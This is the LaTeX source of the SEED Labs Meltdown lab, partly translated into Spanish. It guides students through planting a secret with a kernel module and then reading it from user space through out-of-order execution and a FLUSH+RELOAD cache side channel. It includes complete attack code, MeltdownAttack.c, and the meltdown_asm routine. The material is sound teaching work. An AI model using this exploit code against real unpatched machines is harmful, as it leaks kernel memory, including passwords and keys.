Sin embargo, este mecanismo se ve vulnerado con el ataque Meltdown, que permite que programas no privilegiados del espacio del usuario pueda lear de forma arbitraria memoria del espacio de direcciones del kernel.

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 3: Guardando data sensible en el Espacio del Kernel}

Para simplificar nuestra tarea, hemos guardado un dato secreto en el espacio del kernel y mostramos como un programa corriendo en el espacio de usuario puede encontrar cual es ese dato secreto. Hemos usado un módulo kernel para guardar este dato secreto. La implementación de este módulo se encuentra en el archivo \texttt{MeltdownKernel.c}. 
La tarea de loos estudiantes será compilar y instalar este módulo. El código es mostrado a continuación.

\begin{lstlisting}[caption=\texttt{MeltdownKernel.c}, label=meltdown:list:kernelmodule]
static char secret[8] = {'S', 'E', 'E', 'D', 'L', 'a', 'b', 's'};
static struct proc_dir_entry *secret_entry;
static char* secret_buffer;

static int test_proc_open(struct inode *inode, struct file *file)
{
#if LINUX_VERSION_CODE <= KERNEL_VERSION(4,0,0)
   return single_open(file, NULL, PDE(inode)->data);
#else
   return single_open(file, NULL, PDE_DATA(inode));
#endif
}

static ssize_t read_proc(struct file *filp, char *buffer, 
                         size_t length, loff_t *offset)
{
   memcpy(secret_buffer, &secret, 8);                  (*@\ding{192}@*)
   return 8;
}

static const struct file_operations test_proc_fops =
{
   .owner = THIS_MODULE,
   .open = test_proc_open,
   .read = read_proc,
   .llseek = seq_lseek,
   .release = single_release,
};

static __init int test_proc_init(void)
{
   // write message in kernel message buffer
   printk("secret data address:%p\n", &secret);        (*@\ding{193}@*)

   secret_buffer = (char*)vmalloc(8);

   // create data entry in /proc
   secret_entry = proc_create_data("secret_data", 
                  0444, NULL, &test_proc_fops, NULL);  (*@\ding{194}@*)
   if (secret_entry) return 0;

   return -ENOMEM;
}


static __exit void test_proc_cleanup(void)
{
   remove_proc_entry("secret_data", NULL);
}

module_init(test_proc_init);
module_exit(test_proc_cleanup);
\end{lstlisting}

Existen dos cuestiones importantes a tener en cuenta o los ataques Meltdown serán difíciles de lograr. En nuestro módulo kernel, debemos de asegurarnos que se cumplan las siguientes condiciones:

\begin{itemize}
\item Necesitamoos saber la dirección del dato secreto. El módulo guarda la dirección de este dato en el buffer de mensajes del kernel (Línea \ding{193}), que es accesible de forma pública; de ahí obtendremos la dirección. En los escenarios reales de un ataque Meltdown, los atacantes deben de descubrir la forma de obtener la dirección o adivinarla de alguna forma.

\item El dato secreto necesita estar cacheado or la taza de probabilidad de que el ataque sea exitoso será baja.  La razón de esto será explicada después. Para lograr esto, necesitamos usar el dato secreto solamente una vez. Hemos creado una entrada de datos en \texttt{/proc/secret\_data}~(Línea \ding{194}), la cual provee una ventana para programas que corren en el espacio de usuario y que permite interactuar con el móduloo del kernel. Cuando el programa en el espacio del usuario lee de esta entrada, la función \texttt{read\_proc()} será invocada en el módulo del kernel, dentro de la cual el dato secreto será cargado (Línea \ding{192}) y así será almacenada en la cache del CPU.
Cabe señalar que la función \texttt{read\_proc()} no devuelve el dato secreto al espacio de usuario, para que este no se filtre, por lo que necesitamos usar el ataque Meltdown para obtener este dato secreto.
\end{itemize}


\paragraph{Compilación y ejecución.}
Descargue el código del sitio oficial del laboratorio y entre al directorio que contiene el \textit{Makefile} y \textit{MeltdownKernel.c}. Escriba el comando \texttt{make} para compilar el módulo del kernel.
Para instalar este módulo, usaremos el comando  \texttt{insmod}. Una vez que hemos instalado el módulo de forma correcta, podemos usar el comando \texttt{dmesg} para obtener la dirección del dato secreto en el buffer de mensajes del kernel. Anote esta dirección ya que será usada más adelante.

\begin{lstlisting}
 $ make
 $ sudo insmod MeltdownKernel.ko
 $ dmesg | grep 'secret data address'
 secret data address: 0xfb61b000
\end{lstlisting}
 



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 4: Accediendo a la Memoria del Kernel desde el Espacio de Usuario}

Ahora que conocemos la dirección del dato secreto, procederemos a hacer un experimento y observar si podemos acceder o no a la dirección antes anotada y obtener el dato secreto.
Puede escribir su propio código para este experimento. Hemos hecho un código de ejemplo que se muestra a continuación. Debe de reemplazar la dirección en la Línea \ding{192}, con la que anotó en la Tarea anterior.
Compile y ejecute este programa (o su propio código) y describa su observación.
¿Será exitosa la ejecución de la Línea \ding{193}? ¿Puede ejecutar el programa la Línea \ding{193}?


\begin{lstlisting}
int main()
{
  char *kernel_data_addr = (char*)0xfb61b000;  (*@\ding{192}@*)
  char kernel_data = *kernel_data_addr;        (*@\ding{193}@*)
  printf("I have reached here.\n");            (*@\ding{194}@*)
  return 0;
}
\end{lstlisting}



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 5: Manejar Errores/Excepciones en C}


From Task 4, you have probably learned that accessing a kernel memory from the user space will
cause the program to crash. In the Meltdown attack, we need to do something 
after accessing the kernel memory, so we cannot let the program crash. 
Accessing prohibited memory location will raise a SIGSEGV signal; if a program does not 
handle this exception by itself, the operating system will handle it and terminate the 
program. That is why the program crashes. There are several ways to prevent
programs from crashing by a catastrophic event. 
%With Intel TSX technology,
%exceptions can be suppressed in the first place by making several instruction
%statements atomic. Due to the lack of support of TSX in VirtualBox, even if your CPU has TSX
%feature enabled, our VM cannot benefit from it. Thus, we will not use this technique.
One way is to define our own signal handler in the program to capture
the exceptions raised by catastrophic events. 


Unlike C++ or other high-level languages, C does not provide direct support
for error handling~(also 
known as exception handling), such as the try/catch clause. 
However, we can emulate the try/catch clause using \texttt{sigsetjmp()} and \texttt{siglongjmp()}.
We provide a C program called \texttt{ExceptionHandling.c} in the following 
to demonstrate how
a program can continue to execute even if there is a critical exception, such as memory access
violation. Please run this code, and describe your observations. 


\begin{lstlisting}[caption=\texttt{ExceptionHandling.c}]
static sigjmp_buf jbuf;

static void catch_segv()
{
  // Roll back to the checkpoint set by sigsetjmp().
  siglongjmp(jbuf, 1);                             (*@\ding{192}@*)
}

int main()
{ 
  // The address of our secret data
  unsigned long kernel_data_addr = 0xfb61b000;

  // Register a signal handler
  signal(SIGSEGV, catch_segv);                     (*@\ding{193}@*)

  if (sigsetjmp(jbuf, 1) == 0) {                   (*@\ding{194}@*)
     // A SIGSEGV signal will be raised. 
     char kernel_data = *(char*)kernel_data_addr;  (*@\ding{195}@*)

     // The following statement will not be executed.
     printf("Kernel data at address %lu is: %c\n", 
                    kernel_data_addr, kernel_data);
  }
  else {
     printf("Memory access violation!\n");
  }

  printf("Program continues to execute.\n");
  return 0;
}
\end{lstlisting}



The exception handling mechanism in the above code is quite complicated, so we provide further
explanation in the following:

\begin{itemize}

\item Set up a signal handler: we register a \texttt{SIGSEGV} signal handler in Line \ding{193}, so when
a \texttt{SIGSEGV} signal is raised, the handler function \texttt{catch\_segv()} will be invoked. 

\item Set up a checkpoint: after the signal handler has finished processing the exception, it
needs to let the program continue its execution from particular checkpoint. 
Therefore, we need to define a checkpoint first. This is achieved via
\texttt{sigsetjmp()} in Line \ding{194}: 
\texttt{sigsetjmp(jbuf, 1)} saves the stack context/environment in \texttt{jbuf} 
for later use by \texttt{siglongjmp()};  it returns 0 when the 
checkpoint is set up~\cite{sigsetjmp}. 


\item Roll back to a checkpoint: When \texttt{siglongjmp(jbuf, 1)} is called, the
state saved in the \texttt{jbuf} variable is copied back in the processor and computation starts over
from the return point of the \texttt{sigsetjmp()} function, 
but the returned value of the \texttt{sigsetjmp()} function  
is the second argument of the \texttt{siglongjmp()} function, which is \texttt{1} in our case.
Therefore, after the exception handling, the program continues its execution from the
\texttt{else} branch.  

\item Triggering the exception: The code at Line \ding{195} will 
trigger a \texttt{SIGSEGV} signal due to the memory access violation (user-level programs
cannot access kernel memory).

\end{itemize}



%\item \textbf{Line \ding{194}}: \texttt{sigsetjmp()} returns 0 if returning directly, and non-zero when
%returning from \texttt{siglongjmp()} using the saved context. If the second argument of 
%\texttt{sigsetjmp()} is
%non-zero, the process's current signal mask is saved in \texttt{jbuf} and will be restored if a
%\texttt{siglongjmp()} is later performed with this \texttt{jbuf}. Therefore, when 
%\texttt{sigsetjmp()} is invoked the first time,
%it returns 0 and fills the \texttt{jbuf} structure with the calling environment and signal mask. The
%calling environment represents the state of registers and the point in the code where the
%function was called. In this case, \texttt{SIGSEGV} is captured and 
%\texttt{siglongjmp()} is called, the program
%will roll back to here, with \texttt{ sigsetjmp()}’s return value be 1.
%

%The execution sequence for our program is the following:

%\begin{enumerate}
%\item Set up the \texttt{SIGSEGV} handler (Line \ding{193}).

%\item \texttt{sigsetjmp()} is invoked for the first time; its return value is 0 (Line
%\ding{194}).
%
%\item Access the kernel memory, and a \texttt{SIGSEGV} signal is raised (Line \ding{195}).
%
%\item \texttt{catch\_segv()} is called. \texttt{siglongjmp()} is called and reset the calling
%environment from \texttt{jbuf}. It also sets the return value of
%\texttt{sigsetjmp()} to 1 (Line \ding{192}).
%
%\item Program jumps to Line \ding{194}. This time the if statement is not evaluated to be true.
%
%\item The else branch is executed.
%\end{enumerate}







% *******************************************
% SECTION
% *******************************************
\section{Tarea 6: Ejecución Fuera de Orden en el CPU}


From the previous tasks, we know that if a program tries to read 
kernel memory, the access will fail and an exception will be raised. 
Using the following code as an example, we know that 
Line 3 will raise an exception because the memory at address \texttt{0xfb61b000}
belongs to the kernel. Therefore, the execution will be interrupted at Line 3, and 
Line 4 will never be executed, so the value of 
the \texttt{number} variable will still be 0.

\begin{lstlisting}
1  number = 0;
2  *kernel_address = (char*)0xfb61b000;
3  kernel_data = *kernel_address;
4  number = number + kernel_data;
\end{lstlisting}

The above statement about the code example is true when looking from outside of the CPU. 
However, it is not completely true if we get into the CPU, and look at the execution sequence
at the microarchitectural level. If we do that, we will find out that 
Line 3 will successfully get the kernel data, and Line 4 and subsequent instructions 
will be executed. This is due to an important optimization technique adopted by
modern CPUs. It is called out-of-order execution. 


Instead of executing the instructions strictly in their original order, modern high performance
CPUs allow out-of-order execution to exhaust all of the execution units. Executing instructions
one after another may lead to poor performance and inefficient resources usage, i.e., current
instruction is waiting for previous instruction to complete even though some execution units
are idle~\cite{wiki:outoforder}. With the out-of-order execution feature, CPU can 
run ahead once the required resources are available.


In the code example above, at the microarchitectural level, Line 3 involves two 
operations: load the data (usually into a register), and
check whether the data access is allowed or not. If the data is already in
the CPU cache, the first operation will be quite fast, while the second operation may take a
while. To avoid waiting, the CPU will continue executing Line 4 and subsequent instructions,
while conducting the access check in parallel. This is out-of-order execution. The results of
the execution will not be committed before the access check finishes. In our case,
the check fails, so all the results caused by the out-of-order execution will be discarded like
it has never happened.  That is why from outside we do not see that Line 4 was executed.  
Figure~\ref{meltdown:fig:outoforder} illustrates the out-of-order execution 
caused by Line 3 of the sample code. 



\begin{figure}[htb]
\centering

\includegraphics[width=0.75\textwidth]{\meltdownFigs/meltdown.pdf}
\caption{Out-of-order execution inside CPU}
\label{meltdown:fig:outoforder}
\end{figure}


Intel and several CPU makers made a severe mistake in the design of the out-of-order execution. 
They wipe out the effects of the out-of-order execution on registers and memory
if such an execution is not supposed to happen, so the execution does not lead to 
any visible effect. However, they forgot one thing, the effect on CPU caches.  
During the out-of-order execution, the referenced memory is fetched into a register and is 
also stored in the cache. If the out-of-order execution has to be discarded, 
the cache caused by such an execution should also be discarded. Unfortunately, this is 
not the case in most CPUs. Therefore, it creates an observable effect. 
Using the side-channel technique described in Tasks 1 and 2, we 
can observe such an effect. The Meltdown attack cleverly uses this 
observable effect to find out secret values 
inside the kernel memory. 


In this task, we use an experiment to observe the effect caused by 
an out-of-order execution. The code for this experiment is shown below. 
In the code, Line \ding{192} will cause an exception, so Line \ding{193} will
not be executed. However, due to the out-of-order execution, Line \ding{193} is 
executed by the 
CPU, but the result will eventually be discarded. However, because of the execution,
\texttt{array[7 * 4096 + DELTA]} will now be cached by CPU. We use the side-channel code 
implemented in Tasks 1 and 2 to check whether we can observe the effect. 
Please download the code from the lab website, run it and describe your observations. 
In particular, please provide an evidence to show that Line \ding{193} is 
actually executed. 


\begin{lstlisting}[caption=\texttt{MeltdownExperiment.c}, label=meltdown:list:outoforder]
void meltdown(unsigned long kernel_data_addr)
{
  char kernel_data = 0;

  // The following statement will cause an exception
  kernel_data = *(char*)kernel_data_addr;     (*@\ding{192}@*)
  array[7 * 4096 + DELTA] += 1;               (*@\ding{193}@*)
}


// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
  // Register a signal handler
  signal(SIGSEGV, catch_segv);

  // FLUSH the probing array
  flushSideChannel();

  if (sigsetjmp(jbuf, 1) == 0) {
      meltdown(0xfb61b000);                   (*@\ding{194}@*)
  }
  else {
      printf("Memory access violation!\n");
  }

  // RELOAD the probing array
  reloadSideChannel();                     
  return 0;
}
\end{lstlisting}


It should be noted that the address in Line \ding{194} should be replaced by
the actual address that you found from the kernel module. Compile and 
run the code (see Section~\ref{sidechannel:sec:compilation} for the instructions
on the compilation). Document and explain your observations. 
%What \texttt{"taskset 0x1"} does is basically pinning this program to only
%one logical core to reduce cache miss, because L1 cache is proprietary to each core and we
%do not want our program to be cached in a different L1 cache.

%\begin{lstlisting}
% $ gcc -march=native MeltdownExperiment.c
%\end{lstlisting}



% *******************************************
% SECTION
% ******************************************* 
\section{Task 7: The Basic Meltdown Attack}


The out-of-order execution creates an opportunity for us to read data from 
the kernel memory, and then use the data to conduct operations that can cause
observable effects on the CPU cache. How far a CPU can go in 
the out-of-order execution depends on
how slow the access check, which is done in parallel, is performed. 
This is a typical race condition situation. In this task, we will exploit this race condition
to steal a secret from the kernel. 


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 7.1: A Naive Approach}

In the previous task, we can get \texttt{array[7 * 4096 + DELTA]} into the CPU cache.
Although we can observe that effect, we do not get any useful information about 
the secret. If instead of using \texttt{array[7 * 4096 + DELTA]}, we 
access \texttt{array[kernel\_data * 4096 + DELTA]}, which brings it
into the CPU cache. 
Using the FLUSH+RELOAD technique, we check the access time of
\texttt{array[i*4096 + DELTA]} for \texttt{i = 0, $\ldots$, 255}. 
If we find out that only
\texttt{array[k*4096 + DELTA]} is in the cache, we can infer that 
the value of the \texttt{kernel\_data} is \texttt{k}.  
Please try this approach by modifying \texttt{MeltdownExperiment.c} shown in
Listing~\ref{meltdown:list:outoforder}. Please describe your observations.
Even if your attack is not successful, you should note down your observation, and continue on
to Task 7.2, which is intended to improve the attack. 


%Meltdown exploits a race condition, which occurs between memory access and permission checking
%during instruction processing, as you can see in Figure 4.
%To successfully launch the meltdown attack, the following steps will be taken:

%\begin{enumerate}
%\item User program tries to access the secret data in kernel memory by its address.
%
%\item CPU will load secret data into register while waiting for security check.
%
%\item Program continues to execute because of the out-of-order execution, but the results will
%never be committed because an exception will be raised in previous instruction.
%
%\item During out-of-order execution, the program brings the secret data into cache.
%
%\item CPU is done with the security check. Since we access a prohibited memory location, an exception is raised.
%
%\item The exception should be handled properly to prevent the program from crashing.
%
%\item All the memory and register contents during out-of-order execution won’t be committed.
%But the cache content is not evicted.
%
%\item Cache side-channel attack (Flush+Reload) can be leveraged to steal the secret data from the cache.
%\end{enumerate}




% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 7.2: Improve the Attack by Getting the Secret Data Cached}


Meltdown is a race condition vulnerability, which involves the racing between the out-of-order
execution and the access check. The faster the out-of-order execution is, the more instructions we 
can execute, and the more likely we can create an observable effect that can help us get the
secret. Let us look see how we can make the out-of-order execution faster. 

The first step of the out-of-order execution in our code involves loading the kernel data into 
a register. At the same time, the security check on such an access is performed.  
If the data loading is slower than security check, i.e., when the security check is done, 
the kernel data is still on its way from the memory to the register, the out-of-order execution
will be immediately interrupted and discarded, because the access check fails. Our attack will fail
as well. 

If the kernel data is already in the CPU cache, loading the kernel data into a 
register will be much faster, and we may be able to get to our critical 
instruction, the one that loads the array, before the failed check 
aborts our out-of-order execution. In practice, if a kernel data item is not cached, using 
Meltdown to steal the  data will be difficult. However, as it has been 
demonstrated, Meltdown attacks can still be successful, but  
they require high-performance CPU and DRAM~\cite{meltdowdemo}. 


In this lab, we will get the kernel secret data cached before launching the attack. 
In the kernel module shown in Listing~\ref{meltdown:list:kernelmodule}, we let user-level
program to invoke a function inside the kernel module. This function will access the secret
data without leaking it to the user-level program. The side effect of this access is that the
secret data is now in the CPU cache. We can add the  
code to our attack program used in Task 7.1, before triggering the out-of-order execution.
Please run your modified attack program and see whether your success rate is improved or not.


\begin{lstlisting}
// Open the /proc/secret_data virtual file.
int fd = open("/proc/secret_data", O_RDONLY);
if (fd < 0) {
    perror("open");
    return -1;
}

int ret = pread(fd, NULL, 0, 0); // Cause the secret data to be cached.
\end{lstlisting}



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 7.3: Using Assembly Code to Trigger Meltdown}

You probably still cannot succeed in the previous task, even with secret data being 
cached by CPU. Let us do one more improvement by adding a few lines of
assembly instructions before the kernel memory access. See the code in
\texttt{meltdown\_asm()} below.  The code 
basically do a loop for 400 times (see Line \ding{192}); inside the loop,
it simply add a number \texttt{0x141} to the \texttt{eax} register.  
This code basically does useless computations, but 
according to a post discussion, these extra lines of code
``give the algorithmic units something to chew while
memory access is being speculated''~\cite{boldin}. 
This is an important trick to increase the possibility of success. 
%The reason why this code is written in assembly is that the code only
%accesses registers not memory. 


\begin{lstlisting}[caption=\texttt{meltdown\_asm()}, label=meltdown:list:meltdown_asm]
void meltdown_asm(unsigned long kernel_data_addr)
{
   char kernel_data = 0;
   
   // Give eax register something to do
   asm volatile(
       ".rept 400;"                  (*@\ding{192}@*)
       "add $0x141, %%eax;"
       ".endr;"                      (*@\ding{193}@*)
    
       :
       :
       : "eax"
   ); 
    
   // The following statement will cause an exception
   kernel_data = *(char*)kernel_data_addr;  
   array[kernel_data * 4096 + DELTA] += 1;              
}
\end{lstlisting}


Please call the \texttt{meltdown\_asm()} function, 
instead of the original \texttt{meltdown()} 
function. Describe your observations. Increase and decrease the number of
loops, and report your results. 




% *******************************************
% SECTION
% ******************************************* 
\section{Task 8: Make the Attack More Practical}

Even with the optimization in the previous task, we may still not be able 
get the secret data every time: sometimes, our attack produces the correct 
secret value, but sometimes, our attack fails to 
identify any value or identifies a wrong value. 
To improve the accuracy, we can use a statistical technique.
The idea is create a score array of size 256, one element for each possible 
secret value. We then run our attack for multiple times. Each time, if our
attack program says that \texttt{k} is the secret (this result may be
false), we add 1 to \texttt{scores[k]}.  After running the attack for many
times, we use the value \texttt{k} with 
the highest score as our final estimation of the secret.  This will produce
a much reliable estimation than the one based on a single run. The revised
code is shown in the following.




\begin{lstlisting}[caption=\texttt{MeltdownAttack.c}]
static int scores[256];

void reloadSideChannelImproved()
{
  int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;
  for (i = 0; i < 256; i++) {
     addr = &array[i * 4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}

// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
  int i, j, ret = 0;
  
  // Register signal handler
  signal(SIGSEGV, catch_segv);

  int fd = open("/proc/secret_data", O_RDONLY);
  if (fd < 0) {
    perror("open");
    return -1;
  }

  memset(scores, 0, sizeof(scores));
  flushSideChannel();
  
  // Retry 1000 times on the same address.
  for (i = 0; i < 1000; i++) {
    ret = pread(fd, NULL, 0, 0);
    if (ret < 0) {
      perror("pread");
      break;
    }
	
    // Flush the probing array
    for (j = 0; j < 256; j++) 
        _mm_clflush(&array[j * 4096 + DELTA]);

    if (sigsetjmp(jbuf, 1) == 0) { meltdown_asm(0xfb61b000); }

    reloadSideChannelImproved();
  }

  // Find the index with the highest score.
  int max = 0;
  for (i = 0; i < 256; i++) {
    if (scores[max] < scores[i]) max = i;
  }

  printf("The secret value is %d %c\n", max, max);
  printf("The number of hits is %d\n", scores[max]);

  return 0;
}
\end{lstlisting}


Please compile and run the code, and explain your observations. 
The code above only steals a one-byte secret from the kernel. The actual
secret placed in the kernel module has 8 bytes. You need to modify the above code
to get all the 8 bytes of the secret.


% *******************************************
% SECTION
% *******************************************
\section{Informe del Laboratorio}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

Debe enviar un informe de laboratorio detallado, con capturas de pantalla, para describir lo que ha hecho y lo que ha observado.
También debe proporcionar una explicación a las observaciones que sean interesantes o sorprendentes.
Enumere también los fragmentos de código más importantes seguidos de una explicación. No recibirán créditos aquellos fragmentos de códigos que no sean explicados.
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


% *******************************************
% SECTION
% *******************************************
\section*{Agradecimientos}

Este documento ha sido traducido al Español por Facundo Fontana



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\bibliographystyle{plain}
\def\baselinestretch{1}
\bibliography{BibMeltdownSpectre}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\end{document}


